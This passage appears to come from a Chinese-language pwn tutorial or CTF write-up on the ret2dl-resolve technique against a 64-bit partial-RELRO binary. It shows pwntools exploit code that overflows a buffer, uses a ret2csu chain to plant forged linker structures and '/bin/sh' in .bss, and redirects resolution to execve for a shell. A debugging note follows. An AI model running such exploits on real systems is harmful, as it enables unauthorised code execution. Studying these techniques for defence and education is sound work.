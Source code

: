 ```python
payload   = payload1 + payload2
payload   = payload.ljust(0x200, b'\x00')
payload  += b'/bin/sh\x00'

# 往bss中写入伪造数据
p.send(b'a' * 120 + csu(read_got, 0, bss_addr, len(payload)) + p64(vuln_addr))
p.send(payload)

# 调用_dl_resolve_call函数重定向write函数
p.send(b'a' * 120 + p64(dl) + p64(bss_addr + len(payload1)) + p64(0) + p64(vuln_addr))

# 执行strlen函数
p.send(b'a' * 120 + csu(write_got, bss_addr + 0x200, 0, 0) + p64(vuln_addr))

p.interactive()
```

但是运行时发现错误，我们调试一下:

![main_partial_relro_64_1.png](./image/main_partial_relro_64_1.png)

在`_dl_fixup`中，向`0x5d7828`中写入了`execve`的实际地址，很明显`0x5d7828`并不可写，通过glibc源码我们知道应该是向`Elf64_Rel->r_offset`中写入`execve`的实际地址，我们重新调试查看这个`r12`的值是如何来的
